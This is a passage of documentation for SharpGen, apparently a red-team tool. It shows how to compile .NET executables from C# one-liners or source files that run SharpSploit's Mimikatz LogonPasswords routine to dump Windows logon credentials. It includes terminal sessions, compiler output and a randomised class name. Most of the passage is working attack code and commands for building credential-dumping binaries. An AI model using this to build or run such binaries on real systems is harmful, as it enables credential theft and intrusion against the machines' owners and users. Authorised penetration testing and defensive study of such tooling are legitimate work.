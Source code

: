 ```
    static void Main()
    {
        Console.WriteLine(Mimikatz.LogonPasswords());
	    return;
    }
}
[+] Compiling optimized source:
using System;
using SharpSploit.Credentials;

public static class jZTyloQN2SU4
{
    static void Main()
    {
        Console.WriteLine(Mimikatz.LogonPasswords());
	    return;
    }
}
[*] Compiled assembly written to: /Users/cobbr/SharpGen/Output/example.exe
```

This example generates `example.exe`, a .NET Framework console application that executes the Mimikatz `sekurlsa::logonpasswords` module and writes the output to the screen.

The C# one-liner should always be specified as the final, unnamed command line argument when using SharpGen. However, you can alternatively specify a source file to read from. You may require some logic that does not fit nicely into a single line, or perhaps you are having trouble with escaping quotes on the command line. SharpGen supports reading from a file with the `--source-file` command line argument.

```
cobbr@mac:~/SharpGen > cat example.txt
string whoami = Shell.ShellExecute("whoami");
if (whoami == "SomeUser")
{
    Console.WriteLine(Mimikatz.LogonPasswords());
}
cobbr@mac:~/SharpGen > dotnet bin/Release/netcoreapp2.1/SharpGen.dll -f example.exe --source-file example.txt
...
[*] Compiled assembly written to: /Users/cobbr/SharpGen/Output/example.exe
```

Or, you can specify a source file with a pre-defined class, complete with a Main function:
```
cobbr@mac:~/SharpGen > cat example.txt
using System;
using SharpSploit.Execution;
using SharpSploit.Credentials;

class Program
{
    static void Main()
    {
        string whoami = Shell.ShellExecute("whoami");
        if (whoami == "SomeUser")
        {
            Console.WriteLine(Mimikatz.LogonPasswords());
        }
        return;
    }
}
cobbr@mac:~/SharpGen > dotnet bin/Release/netcoreapp2.1/SharpGen.dll -f example.exe --source-file example.txt
...
```